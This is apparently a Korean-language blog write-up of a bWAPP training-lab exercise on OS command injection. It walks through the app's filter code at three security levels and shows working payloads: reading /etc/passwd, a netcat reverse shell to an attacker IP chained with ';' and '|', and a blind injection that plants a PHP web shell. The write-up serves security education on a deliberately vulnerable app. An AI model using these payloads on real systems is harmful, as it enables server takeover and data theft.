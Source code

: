 ```yaml
---
layout: single
title: (bWAPP)Command Injection
categories: Web-vuln
tag: [os injection. bwapp, bee box, command injection, OWASP TOP 10, OWASP]
toc: true
author_profile: false
sidebar:
    nav: "counts"
---
```


# 검증 로직

```php
function commandi($data)
{
    switch($_COOKIE["security_level"])
    {
        case "0" :
            $data = no_check($data);
            break;
        case "1" :
            $data = commandi_check_1($data);
            break;
        case "2" :
            $data = commandi_check_2($data);
            break;
        default :
            $data = no_check($data);
            break;
    }
    return $data;
}
```

## Level - Low

> Low Level 에서는 아무런 검증이 이루어지지 않아 해당 취약점이 손쉽게 악용될 수 있다.

![그림 1-1](/assets/image/bwapp/injection/image1.png)
-  DNS lookup 기능을 수행하는 입력창이 존재
- 활성화된 버튼을 클릭하게 되면, http://www.nsa.gov 도메인에 대한 DNS Lookup이 이루어져 매칭되는 IP를 알려준다.

![그림 1-2](/assets/image/bwapp/injection/image2.png)

- 해당 능에서는 시스템 함수를 사용한다는 것을 짐작할 수 있다.
- 이 때 적절한 입력 값 검증이 이루어지지 않는다면, 시스템의 메타문자들을 이용하여 앞 명령어에 이어서 추가 명령어를 실행할 경우 RCE 취약점으로 연계가 가능하다.

```shell
www.nsa.gov; cat /etc/passwdw 
```

- 위 코드와 같이 ;(명령어 구분자)를 통해 새로운 시스템 명령어를 보내 서버측에서 실행하도록 하였다.

![그림 1-3](/assets/image/bwapp/injection/image3.png)
- 출력된 사진과 같이 성공적으로 /etc/passwd 코드를 읽어들여 브라우저상에 출력되는 걸 확인했다.
- 위와 같이 OS Injection 취약점이 존재할 경우 시스템 명령어 주입이 가능한경우 공격자 서버에서 reverse connection이 가능하다

```shell
nc -lvp 5252
```

- 공격자 PC에서 nc를 통해 포트를 열어놓은 상태에서
- cat /etc/passwd 인자 대신 nc [공격자 ip] 5252(포트) -e /bin/bash 를 인자로 주어 연결에 성공한다.

```shell
www.nsa.gov; nc 172.20.120.196 5252 -e /bin/bash
```

![그림 1-4](/assets/image/bwapp/injection/image4.png)
## Level - Medium
> Level - Medium 에서는 &, ; 메타문자가 필터링 된 걸 알 수 있다.
```php
function commandi_check_1($data)
{
    
    $input = str_replace("&", "", $data);
    $input = str_replace(";", "", $input);
    
    return $input;
```
> &와 ; 메타문자가 필터링 되었어도, | 메타문자를 통해 두번 째 인자가 시스템 명령어로 실행이 가능하다.


```shell
www.nsa.gov | nc 172.20.120.196 5252 -e /bin/bash
```

## Level - High
> Level - High 에서는 escapeshellcmd() 함수를 통해 적절하게 검증이 이루어지고 있다.

```shell
function commandi_check_2($data)
{
   
    return escapeshellcmd($data);
    
}
```
>escapeshellcmd() 함수는 PHP 함수로서, 외부 명령을 실행하기 전 입력된 문자열에 대해 이스케이프 처리를 수행한다. 이를 통해 메타문자를 이스케이프하여, 쉘 명령을 실행할 수 없도록 한다.

# Blind - Based
> Blind 기반의 OS 인젝션 파트도 필터링은 동일하게 적용되어 있으며, Blind 기반의 OS 인젝션에 대한 부분중 하나를 실습해보았다. (해당 실습에서 사용된 방식을 제외한 여러 Blind 기반의 공격기법은 다양하지만 redirect 를 통한 Blinde 기반의 공격을 실습해보았다.)

![그림 1-5](/assets/image/bwapp/injection/image5.png)
 - 사진에서 볼 수 있듯, 명령어에 대한 어떠한 결과값이 도출되지 않고 있다

 ```shell
 127.0.0.1;echo '<?php system($_GET['cmd']) ?>' > /var/www/bWAPP/shell.php
 ```

 - 입력값과 추가 시스템 명령어를 전달하였다.
- 실습대상인 bWAPP의 웹 디렉터리 내에 shell.php 파일을 생성하였고, 웹 페이지에서 해당 경로로 접근하면 웹쉘이 실행되는것을 확인했다.
![그림 1-6](/assets/image/bwapp/injection/image6.png)

